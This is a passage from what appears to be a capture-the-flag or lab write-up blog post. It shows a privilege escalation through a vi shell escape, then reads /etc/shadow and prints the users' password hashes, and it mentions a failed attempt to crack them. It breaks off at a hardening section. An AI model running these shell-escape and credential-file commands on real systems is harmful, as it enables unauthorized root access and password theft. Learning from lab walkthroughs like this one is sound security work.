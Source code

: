And inside `vi` type `:! /bin/sh`

Boom.

![1791832992803.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625880069325/DVADCDKFG.png align="left")

![1567896233080.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625880061892/kyqzsUOoG.png align="left")

[Back to top](#contents) ⤴

# Post exploits

> Like what you see? Join the [Hashnode.com](/join) now. Things that are awesome:

> ✔ Automatic GitHub Backup

> ✔ Write in Markdown

> ✔ Free domain mapping

> ✔ CDN hosted images

> ✔ Free in-built newsletter service

> By using my link you can help me unlock the ambasador role, which cost you nothing and gives me some additional features to support my content creation mojo.

Now that we have the root access, maybe we can crack something from `shadow` file?

```txt
cat /etc/shadow | grep -vF :*: | grep -vF :!:
```

![2267952157893.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625880079349/aqvO6cSFp.png align="left")

```txt
root:$6$mJFt2hPm87QQnTTe$iQR6I/fnw56HY7KABpVORJ4uabDHfWILJLAj0PTswex.epHHMhcRAoR08J3MrHPYu3SFd67DoUdaLSFYxwE4/1:18296:0:99999:7:::
systemd-coredump:!!:18295::::::
simon:$6$HmDDB89I3xFM2mJe$DNf5vRLvByV6U4VND/p2VfYYX8/s5apU3j3gk/2Y7A6Q8adNfDKHBFhw71i1gJ7kRUO7rqFX90h3sp4O6K1p20:18295:0:99999:7:::
postgres:$6$mbGAgq2J4ZtuYuWl$9GBi2iuMl6Io6GaxOtiWcbpg2CM6QxWNgSexoc97osVx3TQFv6SEld/339z0fyrgDxQBQxbUQDa6PkVeahpO3.:18296:0:99999:7:::
ftpuser:$6$vbS2lINzTKdW.wYi$1Xxvomaxm3u.su5B0IompTFJJS8Ax1V0bgYRDBjgwick/d6WITZzq44MXeFbKl8RmsF3TzyN/ey9clfhW8iE0/:18295:0:99999:7:::
```

Especially I was targeting the `simon` account, but dictionary attack wasn't enough to crack it.

[Back to top](#contents) ⤴

# Hardening ideas

## sudoer permissions

